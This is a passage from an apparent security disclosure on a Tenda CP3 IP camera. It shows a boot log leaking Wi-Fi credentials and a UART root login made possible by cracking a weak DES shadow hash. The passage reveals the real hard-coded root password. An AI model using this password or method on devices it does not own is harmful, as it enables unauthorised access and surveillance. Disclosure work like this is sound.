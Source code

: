 ```plaintext
...
[linkkit_client_set_property_handler_json, line:1194] set property handler(0), result: {"WifiConfiguration":{"WifiName":"wifi_network_ssid","WifiPasswd":"wifi_network_password_in_plain_text","Encryption":"WPA-PSK"}}
...
```

An attacker could steal the camera and monitor its boot log while the wifi network
of the victim is in range and gain access to the credentials.

### Physical `root` Access

> Hard-coded, weak credentials, stored using weak encryption for user root
> in Shenzen Tenda Technology IP Camera CP3 V11.10.00.2211041355 allows
> physically proximate attackers to gain root access to the device via UART

#### Details

Analyzing the boot log, it is possible to spot a very specific message:

```plaintext
Please press Enter to activate this console.
```

Surprisingly enough, upon pressing `Enter` a login prompt is shown:

```terminal
(none) login:
```

Widely used default credentials such as `root:password`, `root:root`, `root:toor`
do not work.

Looking into the extracted Squashfs filesystem (the so-called app partition) we
see a file named `shadow` with the following content:

```plaintext
root:7h2yflPlPVV5.:18545:0:99999:7:::
```

John the Ripper gives more information about this hash:

```terminal
$ john shadow
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 64/64])
```

This encryption algorithm can be easily brute-forced, more on that is explained
[here](<https://en.wikipedia.org/wiki/Crypt_(C)#Traditional_DES-based_scheme>).

A brute-force attack, either using `hashcat` or `john` reveals the password to be
`tdrootfs`

Trying to log in as `root` with password `tdrootfs` over the UART connection works
as expected:

```terminal
(none) login: root
Password:
April  20 16:40:33 login[14501]: root login on 'ttyS0'


BusyBox v1.26.2 (2021-09-07 16:47:55 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

[/app]#
```
